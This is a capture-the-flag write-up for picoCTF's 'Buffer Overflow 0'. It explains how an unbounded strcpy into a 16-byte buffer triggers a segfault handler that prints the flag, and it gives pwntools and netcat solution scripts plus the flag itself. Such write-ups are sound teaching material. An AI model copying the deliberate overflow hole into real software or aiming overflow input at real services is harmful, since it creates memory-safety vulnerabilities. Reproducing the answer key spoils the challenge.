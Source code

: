 # Buffer Overflow 0

Link: https://play.picoctf.org/practice/challenge/257?originalEvent=70&page=1

This challenge is very easy. It only requires you to put in a string of characters longer than 16.

The reason for this lies in the program itself. In the sourcecode we find an interesting function:

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

This function actually prints the flag! 

A little later we find the line `signal(SIGSEGV, sigsegv_handler); // Set up signal handler`

This line handles segmentation faults (SIGSEGV).

The next function is the one we exploit, vuln.

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

When we insert a longer string than 16 (buf1 / input) and try to copy it we get a segmentation fault. This in turn calls sigsegv_handler and prints the flag.

## Solution
Python script:
```python3
#!/usr/bin/env python3

from pwn import *
import sys

if len(sys.argv) != 2:
    print("Usage: solve.py [input]")
    exit(1)

nc = remote("saturn.picoctf.net", 51110)
nc.recvuntil(b"Input: ")
nc.send(bytes("{}\n".format(sys.argv[1]), 'UTF-8'))
print(nc.recvline().decode("UTF-8"))
nc.close()
```

Bash script:
```bash
#!/bin/bash
echo "Any string longer than 16 characters" > message.txt
nc saturn.picoctf.net 51110 < message.txt
```
---
Manual way (recommended for this challenge as it is very easy)
```bash
nc saturn.picoctf.net 51110
input: Any string longer that 16 characters
```

Flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}`
